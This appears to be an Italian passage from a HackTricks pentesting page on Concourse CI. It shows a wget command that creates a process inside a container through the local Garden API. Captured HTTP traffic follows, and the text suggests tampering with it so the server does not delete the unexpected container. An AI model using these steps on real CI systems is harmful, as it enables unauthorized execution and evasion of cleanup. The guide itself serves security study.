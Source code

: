 ```bash
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
```
Tuttavia, il server web controlla ogni pochi secondi i contenitori in esecuzione e, se ne viene scoperto uno inaspettato, verrà eliminato. Poiché la comunicazione avviene in HTTP, potresti manomettere la comunicazione per evitare l'eliminazione di contenitori inaspettati:
```
GET /containers HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
.

T 127.0.0.1:7777 -> 127.0.0.1:59722 [AP] #157
HTTP/1.1 200 OK.
Content-Type: application/json.
Date: Thu, 17 Mar 2022 22:42:55 GMT.
Content-Length: 131.
.
{"Handles":["123ae8fc-47ed-4eab-6b2e-123458880690","ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

T 127.0.0.1:59722 -> 127.0.0.1:7777 [AP] #159
DELETE /containers/123ae8fc-47ed-4eab-6b2e-123458880690 HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
```
## Riferimenti

- https://concourse-ci.org/vars.html

{{#include ../../banners/hacktricks-training.md}}
